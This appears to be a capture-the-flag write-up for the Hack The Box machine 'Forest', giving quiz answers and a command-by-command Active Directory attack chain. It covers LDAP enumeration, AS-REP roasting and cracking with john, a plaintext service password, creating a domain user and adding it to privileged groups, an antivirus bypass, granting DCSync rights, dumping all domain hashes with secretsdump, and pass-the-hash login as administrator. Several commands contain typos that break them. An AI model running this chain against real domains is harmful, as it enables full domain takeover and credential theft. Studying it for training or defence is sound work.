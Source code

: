## Table of Contents

    - [MEthodology](#MEthodology)
    - [Foothold](#Foothold)
    - [Prive esc](#Prive\esc)

localip = 10.10.16.13
ip = 10.10.10.161
**Which domain is this machine a DC?**
htb.local
**Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM**
LDAP

**Which user has Kerberos Pre-Authentication disabled?**



User:bf7a8463fc9f3a02856bb17539265ae4


The user svc-alfresco is a member of a group that allows them to add themself to the "Exchange Windows Permissions" group. Which group is that?
Account Operators


### MEthodology

Enumeration ->
`ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.161 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) nmap -sC -sV -p$ports 10.10.10.161`



check LDAP service for anon login 
`ldapsearch -h MACHINE_IP -p 389 -x -b "dc=htb,dc=local"`


The windapsearch tool can be used to query the domain further. The -U flag is used to enumerate all users, i.e. objects with objectCategory set to user . We find some username and mailbox accounts, which means that exchange is installed in the domain. Let's enumerate all other objects in the domain using the objectClass=* filter.

python winadpsearch.py -d hb.local --dc-ip 10.10.10.161 -U
The -U flag is used to enumerate all users, i.e. objects with objectCategory set to user . We find some username and mailbox accounts, which means that exchange is installed in the domain. Let's enumerate all other objects in the domain using the objectClass=* filter.

python winadpsearch.py -d hb.local --dc-ip 10.10.10.161 --custom "objectClass=\*"

### Foothold
GetNPUsers.py script from impacket can be used to request a TGT ticket and dump the hash
`GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass`





copy hash to a file
`john hash.txt --fork=4 -w=/path/to/wordlist.txt`

### Prive esc

bloodhound-python 
-d htb.local -usvc-alfresco -p s3rvice

**Add a new users jon and add him to Exchange Windows Permissions and Remote management users so that he can change permissions and perform DCSync attack**
```
net user john abc123! /add /domain

net group "Exchange Windows Permisssions" john /add

net localgroup "Remote Management Users" john /add


```

Download PowerView and import >

```
Bypass-4MSI **bypass defender
```

add Add-ObjectACL with john credentials to give him DCSynce rights
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

**Run secretsdump.py to dump the system hashes then login with a PTH using psexec.py with admin acc/hash**
secretsdump.py htb/john@10.10.10.161

>
>psexec.py administrator@10.10.10.161 -hashes <paste hash here>


